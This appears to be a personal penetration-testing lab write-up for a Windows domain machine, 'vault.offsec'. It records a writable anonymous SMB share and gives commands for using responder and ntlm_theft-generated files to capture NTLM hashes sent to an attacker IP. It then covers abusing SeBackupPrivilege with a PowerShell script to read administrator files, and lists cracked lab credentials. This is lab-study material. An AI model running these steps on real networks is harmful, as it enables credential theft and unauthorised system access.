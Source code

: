 ### ++ Approach 192.168.168.172 ++
#### Credentials
	* anirudh:SecureHM (vault.offsec)

#### Services
	##### 53 DNS
		Domain: vault.offsec
        DC: DC.vault.offsec

	##### 135 RPC
		Null session, no useful info

	##### 139,445 SMB
		Null session
            Share 'DocumentsShare', we can put files in here
                Maybe putting a file to get something with responder

	##### 389 Ldap
		No anonymous access

	##### 3389 RDP
		-

	##### 5985 WinRM
		-

### ++ Vulnerabilities ++

#### Vuln 1: Null session through SMB and write permissions ++
	* We can get a null session through SMB and place malicious files in 'DocumentsShare' Share

### ++ System Interaction ++
#### Foothold  
	* In 'DocumentsShare' Share we can place malicious file created with **[ntlm_theft](https://github.com/Greenwolf/ntlm_theft)** and steal the hash through responder
    * Commands:
        sudo responder -I tun0
        python3 ntlm_theft.py -g all -s 192.168.45.195 -f malicious
        smbclient -N //192.168.168.172/DocumentsShare
            smb: \> put malicious-(frameset).docx
            smb: \> put malicious.pdf
            smb: \> put malicious.lnk
    * After retrieve the hash and crack it we get anirudh:SecureHM credentials and connect through WinRM

#### Privilege Escalation 
	* The user anirudh has the SeBackupPrivilege, which we can abuse using **[this](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)** script to get access to whatever file we want
    * Commands:
        Import-Module .\Acl-FullControl.ps1
        Acl-FullControl -user vault\anirudh -path C:\Users\Administrator -
        type C:\Users\Administrator\Desktop\proof.txt